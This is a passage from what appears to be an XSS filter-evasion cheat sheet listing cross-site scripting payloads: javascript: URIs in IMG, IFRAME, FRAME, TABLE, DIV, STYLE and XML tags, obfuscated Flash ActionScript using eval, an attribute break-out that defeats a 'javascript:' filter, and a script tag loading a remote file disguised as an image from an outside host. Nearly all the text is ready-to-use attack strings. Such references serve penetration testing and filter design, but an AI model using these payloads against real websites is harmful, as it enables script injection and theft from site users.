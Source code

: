Mocha (older versions of Netscape only):
```
<IMG SRC="mocha:[code]">
```
Livescript (older versions of Netscape only):
```
<IMG SRC="livescript:[code]">
```
Iframe (if iframes are allowed there are a lot of other XSS problems as well):
```
<IFRAME SRC=javascript:alert('XSS')></IFRAME>
```
Frame (frames have the same sorts of XSS problems as iframes):
```
<FRAMESET><FRAME SRC=javascript:alert('XSS')></FRAME></FRAMESET>
```
Tables (who would have thought tables were XSS targets... except me, of course):
```
<TABLE BACKGROUND="javascript:alert('XSS')">
```
Div background-image:
```
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
```
STYLE tags with broken up JavaScript for XSS:
```
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
```
STYLE tag using background-image:
```
<STYLE TYPE="text/css">.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
```
STYLE tag using background:
```
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
```

Using an OBJECT tag you can embed a flash movie that contains XSS:
```
getURL("javascript:alert('XSS')")
```
Using the above action script inside flash can obfuscate your XSS vector:
```
a="get";
b="URL";
c="javascript:";
d="alert('XSS');";
eval(a+b+c+d);
```
XML:
```
<XML SRC="javascript:alert('XSS');">
```
Assuming you can only write into the <IMG SRC="$yourinput"> field and the string "javascript:" is recursively removed:
```
"> <BODY ONLOAD="a();"><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
```
Assuming you can only fit in a few charachters and it filters against ".js" you can rename your JavaScript file to an image as an XSS vector:
```
<SCRIPT SRC="http://k2decompiler.com/xss.jpg"></SCRIPT>
```
